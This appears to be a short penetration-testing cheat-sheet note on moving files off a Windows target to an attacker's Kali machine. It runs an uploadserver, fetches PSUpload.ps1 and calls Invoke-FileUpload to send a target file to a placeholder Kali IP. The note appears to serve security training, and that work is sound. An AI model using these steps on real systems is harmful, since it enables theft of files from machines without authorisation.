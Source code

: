 - If you need to upload a file from Windows to Linux AP, you can use PSUpload.ps1
	- pip3 install uploadserver from AP
	- python3 -m uploadserver
	- curl the PSUpload.ps1 script to windows machine
	- From PowerShell, run . .\PSUpload.ps1
	- Invoke-FileUpload -Uri http://<Kali_IP>:8000/upload -File C:\<Windows_targetFile>
- ![[Pictures/Pasted image 20230831093654.png]]